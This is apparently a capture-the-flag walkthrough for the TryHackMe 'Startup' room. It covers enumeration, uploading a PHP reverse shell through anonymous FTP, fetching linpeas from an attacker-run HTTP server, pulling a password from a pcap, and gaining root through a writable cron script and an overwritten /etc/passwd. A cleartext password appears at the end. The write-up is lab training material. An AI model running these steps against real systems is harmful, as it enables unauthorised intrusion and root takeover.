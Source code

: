 # THM-Startup
https://tryhackme.com/room/startup

Last CTF (THM - mrrobot) took to much time, mainly because I oweranalyzed things.
This one i´m going to look for the easy solutions.

## Lets go!

## Starting with standard enumeration.
********
### Nmap (top 1000 ports with script scan)
```
nmap 10.10.225.190 -sC
PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 

22/tcp open  ssh
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)
80/tcp open  http
|_http-title: Maintenance
```
We get that port 21, 22 and port 80 are open.
Because we used -sC we also get some extra info about FTP.
We can login as Anonumous and the ftp folder is writable.
We also get FTP and SSH server versions.
*************
### Dirbuster

```
dirb http://10.10.96.196 -w /usr/share/wordlists/dirb/common.txt

http://10.10.96.196/index.html
http://10.10.96.196/files/ftp/ 
```
Dirbuster shows that we can access the FTP folder from HTTP, **thats interesting** .
*******
### HTTP
The main web page is just a http file with nothing interesting.<br>
**But if we try the /files folder we get this!**<br>
![image](https://user-images.githubusercontent.com/93491173/216457959-4ac23f3e-f451-4385-82ff-23bda5fc37e2.png)<br>
The /ftp folder is empty.
*******
### FTP
The ftp folder writable, lets see what we can do with that.
We can start to upload pentestmonkey.php reverse shell.
```
ftp Anonymous@IPADRESS
no passwd

cd ftp
ftp> put
(local-file) /home/kali/THM/Startup/Files/pentestmonkey.php
(remote-file) pentestmonkey.php
local: /home/kali/THM/Startup/Files/pentestmonkey.php remote: pentestmonkey.php
```
That worked fine, and its shows up in the browser.
*********
### Reverse shell
Lets try to get a revers shell running.
```
(local host) nc -nlvp 4444
```
Open the pentestmonkey.php in the web browser, we are connected!
*********
### Spawn a shell thru Python
Now we need a usable shell, let use Python to launch a shell.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
**********
### The secret recipe
Read the file /recipe.txt
```
www-data@startup:/$ 
cat /recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured <br> I can't keep it a secret forever and told him it was ****.
```
**********
### Linpeas (finding a weakness)
2 ways to get the Linpeas script oto the host.
1. 
```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230205/linpeas.sh
chmod +x linpeas.sh
```

```
download to LHOST
start a http server on LHOST
python -m http.server 53

Download to RHOST
cd /tmp
wget http://LHOST-IP:53/linpeas.sh
chmod +x linpeas.sh
```
Now lets run Linpeas
```
www-data@startup:/tmp$ ./linpeas.sh
```
Here we can se a suspicius file **/incidents/suspicious.pcapng**
Transfere the file to the LHOST using the FTP folder.
```
Copy file to HTTP/FTP folder. 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
Dowload the file from: 
http://RHOST/files/ftp/suspicius.pcapng
```
### Wireshark
Start Wireshark and load the suspicius.pcapng <br>
At line 152 we can se someone trying to access /home/lennie without permission. <br>
If we the follow the log file we can see at line 173 that someone is trying to run sudo -l <br>
![image](https://user-images.githubusercontent.com/93491173/216831507-48ef88e4-9e90-4ca4-8d9b-cfe44d21862c.png) <br>
At line 177 we can se the password someone is trying to use.<br>
![image](https://user-images.githubusercontent.com/93491173/216831624-3b487d43-220c-46ae-bf24-776e8cf99970.png)<br>
Lets try that password on all users, one by one untill we find the user with that password.
```
www-data@startup:/$ su lennie
su lennie
Password: **********
```
### user.txt
Now its time to check out that user.txt flag.
```
lennie@startup:/$ cd /home/lennie
cd /home/lennie
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt
cat user.txt
THM{**********}
```
### root(.txt)
Now its time to get access to the /root folder.<br>
In lennies folder there are a script folder.<br>
It contains planner.sh and startup_list.txt. <br>
planner.sh calls $LIST and adds it to plannet_list.txt and then run /etc/print.sh<br>
/etc/print.sh is writable and we can add any command that we want to run as root.<br>
if we add 
```
cat /root/root.txt 
```
we get the flag from root.txt, but if we add

```
cat /etc/passwd

ändra till
lennie:x:0:0::/home/lennie:/bin/bash

skapa lokal fil som laddas upp med wget och kopieras till /etc/passwd

cp /tmp/passwd /etc/passwd

exit

su lennie
c4ntg3t3n0ughsp1c3
```
